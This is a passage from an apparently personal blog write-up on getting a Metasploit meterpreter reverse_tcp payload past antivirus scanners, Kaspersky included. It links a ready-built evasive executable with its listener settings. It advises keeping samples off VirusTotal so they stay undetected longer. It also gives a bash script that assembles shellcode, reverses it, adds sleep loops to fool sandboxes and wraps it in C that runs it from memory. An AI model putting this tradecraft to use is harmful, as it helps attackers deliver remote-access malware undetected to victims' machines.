 So I add some sleep/for-loop to fool them. As mentioned earlier, you'd better try more find a slitely deferent way to fool them. It may work, but it may trigger other detection technichs.

After several tries and errors, I bypass all but Kaspersky. After several tries I know its not sandbox and signature. Then the story has been write earlier in this article.

The final bypass all report is [here](https://www.metascan-online.com/en/scanresult/file/df3906541f8846f9a5ef38c7e31505e9) You can download from [here](https://github.com/reverland/scripts/blob/master/exe/hahaha.exe) to check it(LHOST 192.168.56.102, windows/meterpreter/reverse\_tcp, LPORT=4444, md5sum listed is in metascan)

Another thing to mention, I just upload it to virusnothanks when I did my experiments, for I don't want to make the experiment uncerntainly. But now upload to anywhere is ok. If you want to do some experiments for several days, do not upload it to virustotal or metascan or viruscan and so on. You suspicious payload will be marked in one day.(Kaspersky really mark my payload in one day!)

I finally write scripts which generate random instructions for assemble language, encrypt or simply upsidedown shellcodes and automatic the whole process to facilitate my work. you can try one yourself. Similar to this one:

    ```bash
    #! /bin/env bash
    nasm -fbin "$1" -o test.o
    
    cat >> test.c << EOF_FLAG
    #include <stdio.h>
    #include <stdlib.h>
    #include <windows.h>
    /* shellprogram.c */
    char code[] = 
    EOF_FLAG
    
    LEN=`wc -c test.o| cut -d' ' -f1`
    python upsidedown.py test.o
    od -tx1 test.o | cut -c8-80 | sed -e 's/ /\\x/g' | sed -e 's/^/"/g' | sed -e 's/$/"/g' >> test.c
    
    echo "\"\";" >> test.c
    
    cat >> test.c << EOF_FLAG
    int add(int);
    int main(int argc, char *argv[])
    {
      int i, len, s;
      char *p;
      i = 0;
    EOF_FLAG
    
    str='len = '${LEN}';'
    echo ${str} >> test.c
    
    cat >> test.c << EOF_FLAG
      p = (char *)malloc(len);
      for(i=0;i<100;i++){
      s = add(i);
      sleep(1);
      }
      for(i=0;i<len;i++)
        {
          p[i] = code[len - 1 - i];
        }
        int (*exeshell)();
        exeshell = (int (*)()) p;
        (int)(*exeshell)();
      }
    

[^1]: Example comes from [http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/](http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/)
[^2]: Thanks to the article on [Pentest Geek](http://www.pentestgeek.com/2012/01/25/using-metasm-to-avoid-antivirus-detection-ghost-writing-asm/#comment-513), however, nasm may a better choice. for there won't be piles of `db`s